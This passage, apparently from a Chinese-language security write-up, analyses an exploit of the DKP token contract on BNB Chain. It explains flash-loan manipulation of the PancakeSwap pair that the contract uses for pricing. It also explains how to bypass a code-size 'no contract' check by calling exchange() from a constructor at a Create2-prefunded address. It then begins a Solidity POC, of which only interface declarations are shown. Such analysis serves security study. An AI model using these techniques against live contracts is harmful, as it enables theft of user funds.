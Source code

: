 [0xd06fa1BA7c80F8e113c2dc669A23A9524775cF19](https://bscscan.com/address/0xd06fa1BA7c80F8e113c2dc669A23A9524775cF19)  : DKP token

也就是说`0x1201()`函数,  查询了 PancakeSwapV2 上的一个PAIR的 BUSD 和 DKP 余额, 然后将余额相除并返回. 继续研究代码发现`exchange()`函数就是用的这个`0x1201()`函数进行的价格查询,以便将一定数量的美元换成DKP 给用户 (实际就是实现了一个买币函数)

这就给了黑客价格操纵的机会.



## 漏洞利用

### 价格操纵

日常操作, 利用闪电贷在`0x1201()`查询价格时用到的PAIR中借走绝大多数BUSD, 让DKP token价格异常便宜. 就可以用少量的BUSD进行大量买入. 

### 绕过合约检查

由于`exchange`函数中  `require(msg.sender.code.size <= 0, Error('no isContract'));` 条件的限制, 攻击合约是不能直接调用`exchange`函数的.

但是, 使用代码size是否为0来作为调用是否来自合约的判断条件是有问题的. 合约在"run time"时代码size是大于0的,但在"creation time",由于合约还正在部署过程中,所以其code size这时为0, 要在"creation time"执行代码逻辑,那自然就是合约的构造函数, 所以在合约的构造函数中调用`exchange`函数是可以绕过上面的条件检查的. 关于这个问题可以参考 [Ethernaut第15个挑战题目](https://github.com/yinhui1984/EthernautGameReferenceAnswers/blob/main/15_GatekepperTwo.md)

另外一个问题是,  调用`exchange`需要钱(去买DKP), 如何在合约还没部署完成时向合约转账,让它有钱呢.

所以需要事先知道合约的地址, 向其转账,然后再部署合约,部署合约时再其构造函数中进行`exchange`调用.

这就需要用到Create2: https://github.com/yinhui1984/SolidityReference/blob/main/docs/new.md#create2



## POC

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.10;

import "forge-std/Test.sol";

interface IERC20 {
    function balanceOf(address owner) external view returns (uint256);

    function approve(address spender, uint256 value) external returns (bool);

    function transfer(address to, uint256 value) external returns (bool);

    function decimals() external view returns (uint8);
}

interface IUniswapV2Pair {
    function swap(
        uint256 amount0Out,
        uint256 amount1Out,
        address to,
        bytes calldata data
    ) external;
}

interface IRouter {
    function swapExactTokensForTokensSupportingFeeOnTransferTokens(
        uint256 amountIn,
        uint256 amountOutMin,
        address[] calldata path,
        address to,
        uint256 deadline
```